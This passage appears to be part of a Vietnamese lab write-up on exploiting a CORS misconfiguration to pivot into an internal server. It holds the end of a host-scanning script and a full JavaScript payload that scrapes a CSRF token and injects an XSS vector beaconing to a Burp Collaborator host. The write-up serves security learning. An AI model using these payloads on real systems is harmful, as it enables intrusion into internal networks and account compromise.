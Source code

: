 ```
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script>

```


![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_findIP_accesslog.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_findIP_pull.png?raw=true)

Như chúng ta có thể thấy, chúng ta đã định vị máy chủ nội bộ (trong trường hợp này) là: *192.168.0.212:8080*

##### Bước thứ hai: tìm lỗ hổng trong máy chủ nội bộ

Ở bước này chúng ta thực hiện tương tự bước đầu tiên nhưng khác biệt ở phần payload như sau : 

Đoạn code này đang cố gửi username và password đi, nếu như username và password được trả về trong response thì chứng tỏ rằng có thể dẫn đến lỗi XSS.
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
  }
  ))
}

fetchUrl("http://192.168.0.212:8080", "http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net");
</script>

```
![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_findXSS_payload.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_findXSS_pull.png?raw=true)
